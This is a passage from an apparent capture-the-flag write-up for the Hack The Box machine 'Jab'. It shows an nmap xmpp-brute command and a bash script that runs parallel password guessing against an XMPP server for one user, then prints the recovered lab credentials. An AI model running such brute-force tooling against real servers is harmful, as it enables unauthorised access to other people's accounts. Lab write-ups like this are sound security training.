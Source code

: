 I found how to use nmap for this task with this command `nmap -p 5222 --script xmpp-brute --script-args userdb=user.txt,passdb=/usr/share/wordlists/rockyou.txt jab.htb`, but for some reason it kept stopping after only 4 guesses. Because of that, I used the following scipt to bypass this:
```sh
#!/bin/bash

target="jab.htb"
username="bdavis"
concurrent_jobs=10

# Create a temporary user file with the static username
user_file=$(mktemp)
echo "$username" > "$user_file"

# Function to perform nmap xmpp bruteforce with a password
run_nmap() {
    local password="$1"
    local password_file=$(mktemp)
    echo "$password" > "$password_file"
    echo "Trying username: $username | password: $password"
    result=$(nmap -p 5222 --script xmpp-brute --script-args userdb=$user_file,passdb=$password_file $target 2>&1)
    rm -f "$password_file"
    
    if echo "$result" | grep -q "Valid credentials"; then
        echo "Success! Valid credentials found: $username | $password"
        pkill -P $$
        exit 0
    fi
}

export -f run_nmap
export user_file
export target
export username

# Read passwords from the file and run nmap in parallel
cat rockyou-capital-first.txt | xargs -I {} -P $concurrent_jobs bash -c 'run_nmap "$@"' _ {}

echo "No valid credentials found."
```

After that I finally got the credentials I wanted: `bdavis:Welcome1`

Loging in, we do find another room:\